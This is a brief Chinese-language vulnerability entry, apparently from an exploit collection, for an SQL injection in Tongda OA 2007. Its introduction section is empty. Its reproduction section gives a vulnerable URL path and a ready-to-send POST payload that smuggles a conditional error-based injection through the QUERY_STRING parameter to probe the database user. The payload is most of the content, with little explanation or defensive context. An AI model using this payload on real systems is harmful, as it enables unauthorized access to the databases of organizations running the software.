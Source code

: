 通达oa 2007 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

通达oa 2007

三、复现过程
------------

    http://www.0-sec.org/general/document/index.php/setting/keywords/index

post提交

    _SERVER[QUERY_STRING]=kname=1%2Band@``%2Bor%2Bif(substr(user(),1,4)=root,1,exp(710))#
